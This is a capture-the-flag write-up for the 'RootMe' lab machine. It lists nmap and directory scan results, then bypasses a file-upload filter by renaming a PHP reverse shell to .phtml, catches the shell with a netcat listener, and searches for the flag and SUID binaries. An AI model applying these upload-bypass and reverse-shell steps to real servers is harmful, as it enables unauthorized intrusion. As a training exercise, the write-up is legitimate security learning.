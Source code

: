# RootMe

IP - 10.10.88.7

## Scanning and Enumeration
nmap scan:
```
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 4a:b9:16:08:84:c2:54:48:ba:5c:fd:3f:22:5f:22:14 (RSA)
|   256 a9:a6:86:e8:ec:96:c3:f0:03:cd:16:d5:49:73:d0:82 (ECDSA)
|_  256 22:f6:b5:a6:54:d9:78:7c:26:03:5a:95:f3:f9:df:cd (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: HackIT - Home
|_http-server-header: Apache/2.4.29 (Ubuntu)
```
dirsearch:
```
[22:18:58] 403 -   275B - /.php
[22:19:21] 301 -   306B - /css  ->  http://10.10.88.7/css/
[22:19:28] 200 -   616B - /index.php
[22:19:28] 200 -   616B - /index.php/login/
[22:19:30] 200 -   956B - /js/
[22:19:30] 301 -   305B - /js  ->  http://10.10.88.7/js/
[22:19:38] 301 -   308B - /panel  ->  http://10.10.88.7/panel/
[22:19:38] 200 -   732B - /panel/
[22:19:44] 403 -   275B - /server-status
[22:19:44] 403 -   275B - /server-status/
[22:19:50] 301 -   310B - /uploads  ->  http://10.10.88.7/uploads/
[22:19:50] 200 -   741B - /uploads/
```

## Exploit
- http://10.10.88.7/panel is vulnerable to file upload.
- http://10.10.88.7/uploads allows you to see the uploaded files.
- Tested website uploads and found out it allows .txt to be uploaded but .php gets denied.


## Reverse Shell
- In terminal navigate to ``` /usr/share/webshells/php/php-reverse-shell.php ```
- ``` cp php-reverse-shell.php ~/Documents/php_reverse_shell.phtml ``` (copy executable file to "Docuemnts" directory and change the file name to .phtml file).


*The reason behind changing the file name to .phtml it's because we need to use a different php extension in order to execute the php reverse shell.
- Upload the executable file in the website and then go to http://10.10.88.7/uploads.
- In the terminal start netcat listener - ``` nc -nlvp 4444 ``` > go back to the website and open the executable file > acheived reverese shell.

## Post-Exploit
- To find user.txt - ``` find / -name “user.txt” 2>/dev/null ```

# Priviledge Escalation
https://hacking-capture.github.io/root-me/
Finding user with different priviledges -``` find / -user root -perm -4000 2>/dev/null ```
